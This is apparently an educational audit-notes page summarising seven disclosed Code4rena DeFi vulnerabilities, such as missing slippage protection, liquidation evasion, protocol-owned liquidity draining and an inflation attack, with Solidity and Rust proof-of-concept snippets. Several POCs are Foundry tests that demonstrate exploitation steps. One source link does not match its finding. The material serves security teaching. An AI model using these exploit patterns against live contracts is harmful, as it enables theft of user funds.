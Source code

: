 # ETAAcademy-Adudit: 4. Pool

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>04. Pool</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>pool</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] Lack of Slippage Protection in withdraw/redeem Functions of the Vault

### Slippage Protection

- Summary: Users in the PrizeVault expect a 1:1 exchange ratio between assets and shares when withdrawing. However, if the underlying yield vault incurs losses, this ratio can decrease. If total assets drop below total debt while a user's withdrawal is pending, they may receive fewer assets than expected, potentially causing losses.

- Impact & Recommendation: The withdraw and redeem functions in the PrizeVault lack slippage protection, potentially leading to user losses if the underlying yield vault experiences losses. To address this, users should be able to specify slippage protection parameters, such as a minimum amount for redemption or a maximum shares input for withdrawal.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-04-lack-of-slippage-protection-in-withdrawredeem-functions-of-the-vault) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    function previewWithdraw(uint256 _assets) public view returns (uint256) {
        uint256 _totalAssets = totalAssets();
        // No withdrawals can occur if the vault controls no assets.
        if (_totalAssets == 0) revert ZeroTotalAssets();
        uint256 totalDebt_ = totalDebt();
        if (_totalAssets >= totalDebt_) {
            return _assets;
        } else {
            // Follows the inverse conversion of `convertToAssets`
            return _assets.mulDiv(totalDebt_, _totalAssets, Math.Rounding.Up);
        }
    }
    function convertToAssets(uint256 _shares) public view returns (uint256) {
        uint256 totalDebt_ = totalDebt();
        uint256 _totalAssets = totalAssets();
        if (_totalAssets >= totalDebt_) {
            return _shares;
        } else {
            // If the vault controls fewer assets than what has been deposited, a share will be worth a
            // proportional amount of the total assets. This can happen due to fees, slippage, or loss
            // of funds in the underlying yield vault.
            return _shares.mulDiv(_totalAssets, totalDebt_, Math.Rounding.Down);
        }
    }
    function totalAssets() public view returns (uint256) {
        return yieldVault.convertToAssets(yieldVault.balanceOf(address(this))) + _asset.balanceOf(address(this));
    }

  ```

  </details>

## 2.[High] ReLPContract wrongfully assumes protocol owns all of the liquidity in the UniswapV2 pool

### Not calculations on the all liquidity

- Summary: The ReLPContract assumes it owns all liquidity in the UniswapV2 pool. When RdpxV2Core calls ReLPContract#reLP, it may pass incorrect amounts or trigger a revert if the protocol doesn't own the majority of LP balance. This is because the calculation assumes protocol owns all RDPX reserves, potentially leading to a denial-of-service if lpToRemove exceeds actual LP balance.

- Impact & Recommendation: Change the logic and base all calculations on the pair balance of `UniV2LiquidityAmo`
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-09-relpcontract-wrongfully-assumes-protocol-owns-all-of-the-liquidity-in-the-uniswapv2-pool) & [Report](https://code4rena.com/reports/2023-08-dopex)

    <details><summary>POC</summary>

  ```solidity
    function testReLpContract() public {
        testV2Amo();
        // set address in reLP contract and grant role
        reLpContract.setAddresses(
            address(rdpx),
            address(weth),
            address(pair),
            address(rdpxV2Core),
            address(rdpxReserveContract),
            address(uniV2LiquidityAMO),
            address(rdpxPriceOracle),
            address(factory),
            address(router)
        );
        reLpContract.grantRole(reLpContract.RDPXV2CORE_ROLE(), address(rdpxV2Core));
        reLpContract.setreLpFactor(9e4);
        // add liquidity
        uniV2LiquidityAMO.addLiquidity(5e18, 1e18, 0, 0);
        uniV2LiquidityAMO.approveContractToSpend(
            address(pair),
            address(reLpContract),
            type(uint256).max
        );
        rdpxV2Core.setIsreLP(true);
        (uint256 reserveA, uint256 reserveB, ) = pair.getReserves();
        weth.mint(address(2), reserveB * 10);
        rdpx.mint(address(2), reserveA * 10);
        vm.startPrank(address(2));
        weth.approve(address(router), reserveB * 10);
        rdpx.approve(address(router), reserveA * 10);
        router.addLiquidity(address(rdpx), address(weth), reserveA * 10, reserveB * 10, 0, 0, address(2), 12731316317831123);
        vm.stopPrank();

        console.log("UniV2Amo balance isn't enough and will underflow");
        uint pairBalance = pair.balanceOf(address(uniV2LiquidityAMO));
        console.log("UniV2Amo LP balance: ", pairBalance);
        vm.expectRevert("ds-math-sub-underflow");
        rdpxV2Core.bond(1 * 1e18, 0, address(this));
    }

  ```

    </details>

## 3.[High] User can evade liquidation by depositing the minimum of tokens and gain time to not be liquidated

### Liquidation by manipulating the user.cooldownExpiration variable

- Summary: The CollateralAndLiquidity contract has a critical vulnerability that lets a user avoid liquidation by manipulating the user.cooldownExpiration variable. By depositing small amounts of tokens, users can increment the cooldownExpiration, causing liquidation attempts to fail. This could lead to system debt if liquidations are avoided.

- Impact & Recommendation: Consider modifying the liquidation function
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#m-05-absence-of-autonomous-mechanism-for-selling-collateral-assets-in-the-external-market-in-exchange-for-usds-will-cause-undercollateralization-during-market-crashes-and-will-cause-usds-to-depeg) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity
  // Filename: src/stable/tests/CollateralAndLiquidity.t.sol:TestCollateral
  // $ forge test --match-test "testUserLiquidationMayBeAvoided" --rpc-url https://yoururl -vv
  //
    function testUserLiquidationMayBeAvoided() public {
        // Liquidatable user can avoid liquidation
        //
        // Have bob deposit so alice can withdraw everything without DUST reserves restriction
        _depositHalfCollateralAndBorrowMax(bob);
        //
        // 1. Alice deposit and borrow the max amount
        // Deposit and borrow for Alice
        _depositHalfCollateralAndBorrowMax(alice);
        // Check if Alice has a position
        assertTrue(_userHasCollateral(alice));
        //
        // 2. Crash the collateral price
        _crashCollateralPrice();
        vm.warp( block.timestamp + 1 days );
        //
        // 3. Alice maliciously front run the liquidation action and deposit a DUST amount
        vm.prank(alice);
        collateralAndLiquidity.depositCollateralAndIncreaseShare(PoolUtils.DUST + 1, PoolUtils.DUST + 1, 0, block.timestamp, false );
        //
        // 4. The function alice liquidation will be reverted by "Must wait for the cooldown to expire"
        vm.expectRevert( "Must wait for the cooldown to expire" );
        collateralAndLiquidity.liquidateUser(alice);
    }

  ```

  </details>

## 4.[High] When borrowers repay USDS, it is sent to the wrong address, allowing anyone to burn Protocol Owned Liquidity and build bad debt for USDS

### Bad debt from liquidations

- Summary: The Liquidizer contract burns USDS collected from users' repayments during upkeep. If there's enough USDS, it's directly burned; otherwise, Protocol Owned Liquidity (POL) is converted to USDS to cover the deficit. However, the usdsThatShouldBeBurned variable is continuously increased without increasing the Liquidizer balance, forcing it to sell POL to cover the increase. If POL is exhausted, the protocol can't cover bad debt from liquidations, negatively impacting the USDS price.

- Impact & Recommendation: An attacker can exploit this by borrowing and repaying multiple times to exhaust POL or gradually over time as users repay their USDS. Therefore consider to Send the repaid USDS to the Liquidizer.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#h-06-when-borrowers-repay-usds-it-is-sent-to-the-wrong-address-allowing-anyone-to-burn-protocol-owned-liquidity-and-build-bad-debt-for-usds) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity

      function testBurnPOL() public {
        // setup
        vm.prank(address(collateralAndLiquidity));
  	usds.mintTo(address(dao), 20000 ether);
  	vm.prank(address(teamVestingWallet));
  	salt.transfer(address(dao), 10000 ether);
  	vm.prank(DEPLOYER);
  	dai.transfer(address(dao), 10000 ether);
        // create Protocol Owned Liquidity (POL)
        vm.startPrank(address(dao));
  	collateralAndLiquidity.depositLiquidityAndIncreaseShare(salt, usds, 10000 ether, 10000 ether, 0, block.timestamp, false );
  	collateralAndLiquidity.depositLiquidityAndIncreaseShare(dai, usds, 10000 ether, 10000 ether, 0, block.timestamp, false );
  	vm.stopPrank();
        bytes32 poolIDA = PoolUtils._poolID(salt, usds);
  	bytes32 poolIDB = PoolUtils._poolID(dai, usds);
  	assertEq( collateralAndLiquidity.userShareForPool(address(dao), poolIDA), 20000 ether);
  	assertEq( collateralAndLiquidity.userShareForPool(address(dao), poolIDB), 20000 ether);
        // Alice deposits collateral
        vm.startPrank(address(alice));
        wbtc.approve(address(collateralAndLiquidity), type(uint256).max);
        weth.approve(address(collateralAndLiquidity), type(uint256).max);
        collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(alice), weth.balanceOf(alice), 0, block.timestamp, true );

        // Alice performs multiple borrows and repayments, increasing the
        // usdsThatShouldBeBurned variable in Liquidizer
        for (uint i; i < 100; i++){
            vm.startPrank(alice);
            uint256 maxUSDS = collateralAndLiquidity.maxBorrowableUSDS(alice);
  	    collateralAndLiquidity.borrowUSDS( maxUSDS );
            uint256 borrowed = collateralAndLiquidity.usdsBorrowedByUsers(alice);
            collateralAndLiquidity.repayUSDS(borrowed);
        }

        vm.startPrank(address(upkeep));
        // perform upkeep multiple times to cover bad debt
        // breaks when POL is exhausted
        for(;;){
            (, uint reserve1) = pools.getPoolReserves(dai, usds);
            if(reserve1 * 99 / 100 < 100) break;
            liquidizer.performUpkeep();
        }
        assertGt(liquidizer.usdsThatShouldBeBurned(), usds.balanceOf(address(liquidizer)));
    }


  ```

  </details>

## 5.[Medium] Vault.claimRewards can break if Convex changes the operator

### Convex protocol shutdown

- Summary: The Convex protocol allows for a shutdown scenario that doesn't disrupt the BaseRewardPool, but the Vault implementation overlooks this possibility. That means if the operator changes in the Convex protocol, CVX tokens may not be minted as expected, causing the claim to fail and preventing the payout of CRV and extra rewards.

- Impact & Recommendation: Verify the CVX balance of the vault before and after the claim to ensure the correct amount has been minted.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-07-amphora#m-01-vaultclaimrewards-can-break-if-convex-changes-the-operator) & [Report](https://code4rena.com/reports/2023-07-amphora)

  <details><summary>POC</summary>

  ```solidity
  ...
  _totalCvxReward += _calculateCVXReward(_crvReward);
  ...
  // Claim AMPH tokens depending on how much CRV and CVX was claimed
  _amphClaimer.claimAmph(this.id(), _totalCvxReward, _totalCrvReward, _msgSender());
  ...
  if (_totalCvxReward > 0) CVX.transfer(_msgSender(), _totalCvxReward);

  function mint(address _to, uint256 _amount) external {
    if(msg.sender != operator){
        //dont error just return. if a shutdown happens, rewards on old system
        //can still be claimed, just wont mint cvx
        return;
    }

  ```

  </details>

## 6.[Medium] When Convex pool is shut down while collateral type is CurveLPStakedOnConvex, users unable to deposit that asset and protocol lose the ability to accept the asset as collateral further

### Convex protocol shutdown

- Summary: When a Convex pool associated with a collateral type is shut down, users can no longer deposit that asset into a vault due to reverts on Convex booster deposit function. Without a method to update it, the protocol loses the ability to accept it as collateral, and users may face liquidation risks. The same issue arises if Convex itself shuts down their booster contract.

- Impact & Recommendation: Update collateral type to Single and pool id to 0 when a pool or booster contract shuts down. This prevents manual staking and skips Convex deposit. Adjust withdrawERC20 to set isTokenStaked to false when withdrawing all assets, avoiding failed liquidation.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-07-amphora#m-03-when-convex-pool-is-shut-down-while-collateral-type-is-curvelpstakedonconvex-users-unable-to-deposit-that-asset-and-protocol-lose-the-ability-to-accept-the-asset-as-collateral-further-) & [Report](https://code4rena.com/reports/2023-07-amphora)

  <details><summary>POC</summary>

  ```solidity
    import {CommonE2EBase} from '@test/e2e/Common.sol';
    import {IERC20} from 'isolmate/interfaces/tokens/IERC20.sol';
    import {IVault} from '@interfaces/core/IVault.sol';
    interface IBoosterAdmin {
    function poolManager() external view returns (address);
    function shutdownPool(uint256 _pid) external;
    }
    contract VaultCollateralTypeVulnPoC is CommonE2EBase {
    function setUp() public override {
        super.setUp();
    }
    function testCannotDepositWhenConvexPoolIsShutDown() public {
        // Prepare Convex LP for user
        deal(USDT_LP_ADDRESS, bob, 2 ether);
        // User mints vault
        IVault bobVault = IVault(vaultController.vaultIdVaultAddress(_mintVault(bob)));
        // User deposit Convex LP to vault
        vm.startPrank(bob);
        IERC20(USDT_LP_ADDRESS).approve(address(bobVault), 1 ether);
        bobVault.depositERC20(USDT_LP_ADDRESS, 1 ether);
        vm.stopPrank();
        // Convex pool of the asset is shut down
        vm.prank(IBoosterAdmin(address(BOOSTER)).poolManager());
        IBoosterAdmin(address(BOOSTER)).shutdownPool(1);
        // User can no longer deposit that LP to vault
        vm.startPrank(bob);
        IERC20(USDT_LP_ADDRESS).approve(address(bobVault), 1 ether);
        vm.expectRevert('pool is closed');
        bobVault.depositERC20(USDT_LP_ADDRESS, 1 ether);
        vm.stopPrank();
    }
    }

  ```

  </details>

## 7. [High] Early user can break pool via inflation attack due to no minimum liquidity check in the incentive contract

### Inflation attack by no minimum liquidity

- Summary: The incentive contract's absence of a minimum liquidity requirement allows users to exploit an inflation attack. By withdrawing most shares, claiming rewards, and depositing a small amount, users can inflate total shares without increasing reward inflation. This leads to older users losing rewards, especially impactful in low liquidity pools.

- Impact: Implementing a minimum liquidity limit to prevent significant rounding errors caused by dangerously low liquidity.

<br> 🐬: [Source](https://code4rena.com/reports/2024-03-acala#h-02-early-user-can-break-pool-via-inflation-attack-due-to-no-minimum-liquidity-check-in-the-incentive-contract) & [Report](https://code4rena.com/reports/2024-03-acala)

<details><summary>POC</summary>

```rust
    U256::from(add_amount.to_owned().saturated_into::<u128>())
        .saturating_mul(total_reward.to_owned().saturated_into::<u128>().into())
        .checked_div(initial_total_shares.to_owned().saturated_into::<u128>().into())
        .unwrap_or_default()
        .as_u128()
        .saturated_into()

```

</details>

